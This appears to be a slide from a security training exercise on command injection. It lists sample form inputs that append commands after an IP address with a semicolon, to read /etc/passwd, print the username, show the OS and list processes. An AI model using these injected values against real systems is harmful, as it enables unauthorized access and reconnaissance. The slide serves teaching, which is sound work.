

# Command Injection Review
Submit a valid IP address, such as 8.8.4.4 to see the form's normal behavior.
Use the semicolon to inject commands that:
Dump the contents of /etc/passwd
Print the current username
Print the operating system and kernel version
Print all running processes

# Dump the contents of `/etc/passwd`
8.8.4.4; cat /etc/passwd
# Print the current username
8.8.4.4; whoami
# Print the operating system and kernel version
8.8.4.4; uname
# Print all running processes
8.8.4.4; ps aux